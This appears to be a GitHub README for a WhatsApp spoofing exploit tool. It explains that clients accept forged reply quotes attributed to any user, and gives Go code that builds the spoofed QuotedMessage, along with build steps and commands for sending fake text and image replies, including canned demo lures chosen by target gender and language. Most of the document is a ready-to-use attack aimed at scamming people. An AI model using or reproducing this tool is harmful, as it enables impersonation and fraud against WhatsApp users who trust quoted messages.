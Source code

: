 # Whatsapp Spoofing impersonate of reply message
send 
All official WhatsApp clients, upon receiving a "Message Reply" payload (QuotedMessage), do not validate whether the "ContextInfo" of this "QuotedMessage" is valid/exists ("StanzaId" and "Participant"). This allows a malicious actor to send in private chats or groups a "QuotedMessage" of a message that never existed on behalf of another person. This is highly critical and dangerous.

## App Versions

Latest version on all platforms

## The problem

Users: UserA, UserB; UserA is not known by UserB

UserA (SCAMMER) sends a spoofed messages to UserB in response to a message that UserB did never send

Spoofed message payload:

```go
msg := &waProto.Message{
    ExtendedTextMessage: &waProto.ExtendedTextMessage{
        Text: proto.String("Some text"),
        ContextInfo: &waProto.ContextInfo{
            StanzaId:     proto.String("Some Random ID"), //Random ID
            Participant: proto.String("5511999999999@s.whatsapp.net"), //Spoofed user ID
            QuotedMessage: &waProto.Message{
                Conversation: proto.String("Some Spoofed text"), //QuotedMessage Spoofed text
            },
        },
    },
}
```

Send the Spoofed Payload:

```go
resp, err := cli.SendMessage(context.Background(), chatID, msg) 
// chatID is the ID of the chat you want to send the message to, can be a group or the same number as the spoofed user ID
```

## Exploit

#### Clone the repository.


### Install dependencies.

```bash
go mod download
go get 
```

### Build

```bash
go build 
```

### Running

```bash
./whats-spoofing
```

### Usage

#### Retrieve Group Information

```txt
getgroup <jid>
```

#### List Groups

```txt
listgroups
```

#### Send Spoofed Reply

```txt
send-spoofed-reply <chat_jid> <msgID:!|#ID> <spoofed_jid> <spoofed_text>|<text>
```

#### Send Spoofed Image Reply

```txt
send-spoofed-img-reply <chat_jid> <msgID:!|#ID> <spoofed_jid> <spoofed_file> <spoofed_text>|<text>
```

#### Send Spoofed Demo Message

```txt
send-spoofed-demo <toGender:boy|girl> <language:br|en> <chat_jid> <spoofed_jid>
```

#### Send Spoofed Demo Message with Image

```txt
send-spoofed-demo-img <toGender:boy|girl> <language:br|en> <spoofed_jid> <spoofed_img>
```



